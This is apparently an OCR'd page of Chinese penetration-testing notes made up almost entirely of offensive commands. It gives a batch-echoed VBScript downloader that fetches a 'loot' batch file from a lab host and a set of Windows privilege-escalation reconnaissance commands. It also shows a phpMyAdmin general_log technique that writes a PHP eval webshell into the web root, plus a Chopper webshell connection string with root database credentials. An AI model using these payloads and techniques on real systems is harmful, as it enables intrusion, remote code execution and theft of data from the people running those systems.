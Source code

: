     echo strUrl = WScript.Arguments.Item(0) > wget.vbs
    echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
    echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
    echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
    echo  Err.Clear >> wget.vbs
    echo  Set http = Nothing >> wget.vbs
    echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
    echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
    echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
    echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
    echo  http.Open "GET", strURL, False >> wget.vbs
    echo  http.Send >> wget.vbs
    echo  varByteArray = http.ResponseBody >> wget.vbs
    echo  Set http = Nothing >> wget.vbs
    echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
    echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
    echo  strData = "" >> wget.vbs
    echo  strBuffer = "" >> wget.vbs
    echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
    echo  ts.Write Chr(255 and Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
    echo  Next >> wget.vbs
    echo  ts.Close >> wget.vbs
   

cscript wget.vbs http://192.168.56.1/all_info_loot.bat all_info_loot.bat

cmd 提权常用命令

    systeminfo | findstr OS #获取系统版本信息
    hostname  #获取主机名称
    whomai /priv  #显示当前用户的安全特权
    quser or query user  #获取在线用户
    netstat -ano | findstr 3389  #获取rdp连接来源IP
    dir c:\programdata\ #分析安装杀软
    wmic qfe get Caption,Description,HotFixID,InstalledOn  #列出已安装的补丁
    REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber  #获取远程端口
    tasklist /svc | find "TermService" + netstat -ano  #获取远程端口

phpmyadmin general_log 添加webshell

    set global general_log = 1;
    set global general_log_file ='D:/phpStudy4IIS/WWW/phpmyadmin/aa.php';
    select '<?php eval($_REQUEST[123]);?>';
    set global general_log = 0;
    set global general_log_file =null;

菜刀添加数据库连接:

    <T>MYSQL</T><H>localhost</H><U>root</U><P>Unser251#</P><L>utf8</L>


    